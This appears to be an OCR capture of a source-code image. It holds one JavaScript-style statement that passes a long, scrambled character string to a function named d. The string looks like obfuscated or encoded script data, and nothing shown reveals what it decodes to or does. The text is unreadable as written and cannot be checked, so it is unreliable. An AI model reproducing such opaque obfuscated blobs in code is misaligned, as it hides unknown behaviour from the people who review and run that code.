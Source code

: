 f=d(l,"#srlKaJj4&1?cO7-sjc41&4cjra-las4-?Oc1K??&Oj?n-rrr1}?7lOl?s&jJ4aOr?b7-sOr&711&lJjaj74s?-1OrcO&c4csOK7rKsl77&1jOJ2jJJKl&sc--7;17?c&rjaJs-J-c*7-4Oa?&4&jjK-Kjsr-aO4?&&K44jrK7lcs7MK7&j41-4OrsrJrcV?-UO4jlj44?aOaJr7eJ-lc&1c4-jxl1KcrrVs-jc?10&ajOaJKKr--c7O?-1r4aJJr7Karjga&&141444j&34s7sjda7&cj1Oj7JlKsrKXj74OO?l1rjOacKjs-pr7acJ&&&aj1a?KjrX?-c&O7?a41K-4aKcOall-jJ7Js4jj4K1rOsx-s-64Oa7JKJcKclOrs?wca???TjOjsKJl4:&-Jcc1-&rjlKcKJrj.?-11c??&O4JJjKjrj-OlOrj4BcjaJ-rJ?ar-1-s?O1b4lJKlsK%sJ-&&j&??r&Kjrlrlrsrdl&r&c&&44Jlasras1-Oc7cK&sjKajl43-877J7s?n1_lsK4K&s?fo7?cc?K&^rcKrKJsJ{c77?-?44rJaK4r&gK-47r?71c47jKa&74s--O&s&4&c4OJrarljcJc?O7?,1&4sa&K7sc--7rcl&7&rjca4KJr4W7-l4r?&&jr?l?K1r4--7lc81s4-Jjaar1 O-EOs1-&c41JcLKlJs41Ocj?K11j7J7KSrJbl7Jc&11jcjOJlKJlDxs=rcK1j41J?l?Klr?i-O-c-?4&l4l0OKrs4dx74ca1OKrj&aHl5c7kKOacK&-lOjlK4l4s--s7s?ssOl-jK&c1aljjrE417&cjsaKljs47a-KOK??&-r7lKKJlQ9O-scs1-4a7r17l?OzOJOjl?a?4L&&Jj&?c?-jJO7&OjjOJaK.rlmJ7jcT?J&J46Jcasr4,rK&-a?-KO1&s?Oja4--7&cr1a44J&llKar-)c-_c517&4l&KclKd--rOa?J&W&aJJK&r7s-mrOl?&&Jj&aclOsjs4--c7cK&K4aajl1sO-7Orc&?-1fj1Jc-jkahJ7cc-JJJ14sJsllsKa&s4?7?--8Ma4r7&ss-OOK?j&1j?K-K7lJsK-?O1c7&cJaJra&rKsr7jc11O47J4J4K.rlma1K11?r47j7a1l?r?-O74cS1l4JJjr-KJr49J&1?2?K&4JcK-rOsJ-.Ol?J&jJrJJKar?sJ-JOJcj&j4Ka1lOrq3sc?Ol?l1K44K&l-lK/s-ac1?c4O4Ka5llsJ-jOrcJ?x4cj1acKrrj?J7Oc?a-J7JJa7rcc7Ol7J?4?s4&JsKOrKkj71c?1J&74aJ;rslvsr-?Oc?c&cjKJaljs1-OO7?r1&&KjcKKljr&Pl7OOK4-&aJ1aylKsJ-JO7?&&cj-JXljlJ{7e&O4c41cj?la7OOrcas-Z4cjOrj4a7l?s7:s7r&7jca-Krral&ra-cO-cr1ljO4sa-KlOJ7c7cO41?&lJ-K1r-s4jc-K-?sKss1sKjlKY17OOC?sj?4OJlKrl4Lccc7rcK1j4aJjlOra*g7lcJ1jJ-4JJ4KJ-csr-&cK1O4jJ1KOr7-4G1-KOs?a4ajlaOr7s1-sOK?j&4J?JjKJrcs%X2cKc4&447j9l-aJ7J4Kr&j17j4?&Klclr--7rca1J&Oj4JrK&r&fK77OKjr&aJca7-7rK:L74411r&rjrKOr?sls1?J&a1UKls-0rr4ss7?c7?s&ra-JaKOr?s4-POo?r&Ij4j-s?-1